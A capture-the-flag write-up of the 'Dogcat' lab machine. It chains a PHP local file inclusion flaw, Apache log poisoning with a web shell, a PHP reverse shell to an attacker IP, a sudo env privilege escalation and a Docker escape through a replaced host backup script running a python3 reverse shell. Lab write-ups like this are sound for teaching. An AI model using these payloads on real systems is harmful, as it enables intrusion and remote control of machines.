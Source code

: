 # Dogcat

## Flag #1

### The website

First, I accessed the site that is on the box with my browser and was greeted with a page with 2 buttons. Upon pressing the button, we get a random image of a dog or a cat, depending on which button we have pressed.

If we look closely at the URL when clicking a button, we can see that there is a url query parameter `view=[dog|cat]`. When changing the `view` query parameter to something else than `dog` or `cat`, we get an error which tells us that only two of these parameter values are allowed.

But if we include the string `dog` or `cat` to our initial parameter value, for example `view=ilikedogs`, we get the following error:

![](assets/img/dogcat_1.png)

This error can mean that we are probably dealing with a Local File Inclusion vulenrability. The next thing I did is to try to access `/etc/passwd`  to see if I can access files on the filesystem:

![](assets/img/dogcat_2.png)

As we can see, the application appends the file extension `.php` to our string in the `include` function. We can try to bypass that using the NULL byte injection technique, where we just append the byte `0x00` to the end of our query parameter value, which using the browser is percent-encoded (`%00`), assuming that the `X-Powered-By` header does not show the real version of PHP (Null-Byte Injection was patched in PHP 5.3.4):

![](assets/img/dogcat_3.png)

Unfortunately, we do not get our `/etc/passwd` content, which means that we need to find another way to gain any access. The next thing I tried is to use the `php://filter` technique where we can read files encoded for us in base64:

![](assets/img/dogcat_4.png)

![](assets/img/dogcat_5.png)

This gave me the content of index.php, which I can decode in `cyberchef` to gain further information about how the exploited application works. This is the source code of index.php (The base64 decoded result):

```php
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```

After close inpection of the code, I noticed that we are able to also control the file extension using the `ext` query parameter. We now know we can access files on the filesystem by using both `view` and `ext` parameters together:

![](assets/img/dogcat_6.png)

Now that we are able to access files, we need some way to exploit this vulnerability further to gain RCE. I tried the `php://input` method, but I quickly found out that this method won't work, since we have to have `dog` or `cat` included in our payload in some way. I also found out that no cookies are given to the user, so we cannot gain RCE through cookies. 

I finally tried gaining RCE via the apache2 `access.log` file, which logs requests to the server, as well as the **user agent**. I have made the following request to the server to poison the apache logs: `curl -A $'<? system($_GET[\'cmd\']); ?>' IP_ADDR`. The `-A` parameter in our `curl` command means that we are providing our own user-agent, which in our case is PHP code.

The last thing to do is to include the `access.log` file and leverage our new query parameter, which is `cmd`:

![](assets/img/dogcat_7.png)

And using our parameter:

![](assets/img/dogcat_8.png)

As we can see, we are able to execute remote commands using a Local File Inclusion vulnerability (RCE via LFI Log Poisoning). We can now read our first flag by providing `cat flag.php` to our `cmd` query parameter.

## Flag #2

### The system

Time to uprade our RCE to a reverse shell! Since we know that the machine uses `php`, we can get a reverse shell from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md). 

I have created a listener using this command: `ncat -lvnp 4444` and used the following payload using the `cmd` query parameter: `php%20-r%20%27%24sock%3Dfsockopen%28%22<ATTACKER_IP>%22%2C<ATTACKER_PORT>%29%3Bexec%28%22%2Fbin%2Fsh%20-i%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27`.

This is how it went:

![](assets/img/dogcat_9.gif)

I have successfully gained a reverse shell. I quickly found the next flag in directory `/var/www/`.

## Flag #3

### PrivEsc

I downloaded `linpeas.sh` from my local computer to the remote machine and ran it, saving the output in a file in `/tmp`. After some time, the `linpeas` script ended and by inspecting the results, I have found out that the `/bin/env` binary had a setuid bit enabled. If we also check our sudo privileges using the command `sudo -l`, we can also notice that we don't even need a password to execute `env`. This flaw easily enables us to become root by executing a shell with `env` by using the following command: `sudo env sh`.

![](assets/img/dogcat_10.png)

We are successfully root on the machine! We can find the flag in `/root`.

## Flag #4

### Docker container escape via physical volume script

One may have noticed that we do not have certain commands on the machine that would give us more useful information, like `ip` or `netstat`. We can also notice a file called `.dockerenv` in the root directory, which means that likely, we are insid a docker container. If we execute `mount` as root, we get the following data:

![](assets/img/dogcat_11.png)

One particular line stands out, which is `/dev/xvda2 on /opt/backups`. If we `cd /opt/backups` we get this:

![](assets/img/dogcat_12.png)

If we extract `backup.tar`, we get a couple of files:

![](assets/img/dogcat_13.png)

We can see how the application was built. If we look closely at the `backup.tar` file, we notice that every minute it updates. We also have the `backup.sh` script which creates the `backup.tar` file, but it is ran from the host machine. We can try to replace the `backup.sh` script with our own script. I used two seperate scripts, since I noticed that `python` did not exist on the host machine:

```bash
#!/bin/bash

FILE='/root/container/backup/info.txt'

echo `env` > $FILE
echo Python: `which python` >> $FILE
echo Python3 `which python3` >> $FILE
echo Nc: `which nc` >> $FILE
echo Ncat: `which ncat` >> $FILE
echo Node: `which node` >> $FILE
echo gcc `which gcc` >> $FILE
```

This script showed me the following output:

![](assets/img/dogcat_14.png)

We can see that we have `python3` that we can use on the machine. This is the second script I used as the replacement of `backup.sh`:

```bash
#!/bin/bash

python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.13.8",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

```

I have set up a listener using `nc -lvnp 9999` and waited... until:

![](assets/img/dogcat_15.png)

We get our fabulous shell! We have successfully escaped the container using the physical volume and a vulnerable script that was executed by the host machine.

![](assets/img/dogcat_16.png)

And the flag was also found at `/root`.